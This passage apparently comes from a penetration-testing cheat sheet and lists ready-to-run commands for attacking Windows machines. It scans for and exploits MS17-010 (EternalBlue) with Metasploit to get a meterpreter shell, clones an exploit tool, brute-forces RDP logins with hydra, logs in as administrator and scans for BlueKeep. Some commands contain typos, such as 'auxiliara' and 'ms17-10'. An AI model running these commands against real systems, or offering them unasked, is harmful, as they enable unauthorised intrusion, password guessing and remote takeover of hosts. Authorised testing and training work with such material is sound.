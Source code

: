 > If you know the user and pass then it will automates the uploading and exploitation phase and gives you a meterpreter shell.

#### Exploiting MS17-010

```Shell
nmap -sV -p 445 --script=smb-vuln-ms17-10 <ip-address>
```

> Scans the machine for MS17-010 Vulnerability. 

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```

> This tool can be used to exploit the vulnerability manually. 

```msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST <host-address>
set RHOST <ip-address>
exploit
```

#### RDP Exploitation:

```msfconsole
search auxiliary/scanner/rdp/rdp_scanner
show options
set RHOST <ip-address>
set RPORT <port-number>
run
```

> This will tell whether a specific port is running RDP or not.

```Shell
hydra -L /usr/share/metasploit/common_user.txt -P /usr/share/metasploit/unix_passwords.txt rdp://<ip-address> -s 3333
```

> Command to brute force RDP.

```Shell
xfreerdp /u:administrator /p:<password> /v:<ip-address>:3333
```

> Command can be used to connect to RDP.

#### Exploit Blue Keep:

```msfconsole
use auxiliara/scanner/rdp/cve_2019_0708_bluekeep
show options
set RHOST <ip-address>
run
```

> It is a Blue Keep Vulnerability scanner.

